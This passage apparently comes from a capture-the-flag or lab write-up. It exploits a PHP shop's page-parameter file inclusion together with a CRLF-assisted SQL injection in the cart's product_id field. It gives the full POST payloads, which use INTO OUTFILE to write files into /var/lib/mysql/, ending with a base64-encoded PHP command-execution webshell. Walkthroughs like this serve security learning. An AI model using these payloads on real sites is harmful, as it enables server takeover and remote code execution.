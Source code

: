 The data of `/var/www/html/shop/index.php` where we specify the `page` has no restriction against direct paths aswell, but only for `.php` files.

```php
<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```

Using the SQLi with a CRLF we can print data to an outfile, then read it with a direct path.

```
POST /shop/index.php?page=cart HTTP/1.1
...

quantity=1&product_id=%0a';select+@@version+into+outfile+'<directory>'; --1
```

Let's find a way to output a file, we can't write to:
```
/tmp/version.txt
/var/www/html/version.txt
/var/www/html/shop/version.txt
```

Could we write to a library? As the queries are typically run by the `mysqld` user. Let's try write to `/var/lib/mysql/`...

```
POST /shop/index.php?page=cart HTTP/1.1
...

quantity=1&product_id=%0a';select+@@version+into+outfile+'/var/lib/mysql/version.txt'; --1
```

Using our previous script, we get an output reading `/var/lib/mysql/version.txt` with the script!

`10.6.12-MariaDB-0ubuntu0.22.10.1`

Let's use some Base64 to make a PHP webshell, using a [tiny GET webshell](https://github.com/bayufedra/Tiny-PHP-Webshell#simple-http-requests-get-method-shell).

```
POST /shop/index.php?page=cart HTTP/1.1
...

quantity=1&product_id=%0a';select+from_base64('PD89YCRfR0VUWzBdYD8%2b')+into+outfile+'/var/lib/mysql/webshell.php'; --1
```
